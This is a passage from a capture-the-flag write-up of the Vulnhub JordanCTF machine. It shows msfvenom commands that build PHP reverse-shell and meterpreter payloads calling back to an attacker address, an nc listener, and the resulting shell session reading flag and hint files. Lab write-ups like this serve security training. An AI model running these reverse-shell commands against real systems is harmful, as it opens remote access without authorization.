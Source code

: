 ## Exploitation 

Lets Craft PHP Shell 

```shell
root@kali:~# msfvenom -p php/reverse_php LHOST=10.0.2.7 LPORT=4444 > Desktop/CTF/Vulnhub/JordanCTF/shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 3017 bytes

```
Setting up the Handler 

```shell
root@kali:~# nc -lvvnp 4444
listening on [any] 4444 ...
```
Navigate to http://10.0.2.24/uploaded_files/shell.php

```shell

$ cd ..
$ ls
    admin_area
    assets
    check_login.php
    css
    flag
    flag.txt
    hint.txt
    index.php
    js
    login.php
    logout.php
    robots.txt
    uploaded_files
$ cat flag.txt
$ cat hint.txt
try to find user technawi password to read the flag.txt file, you can find it in a hidden file ;)

The 3rd flag is : {7645110034526579012345670}

$ pwd
/var/www/html
```
the shell is not stable so I will try meterpreter shell 

```shell
root@kali:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.7 LPORT=4444 > Desktop/CTF/Vulnhub/JordanCTF/met_shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1109 bytes
```
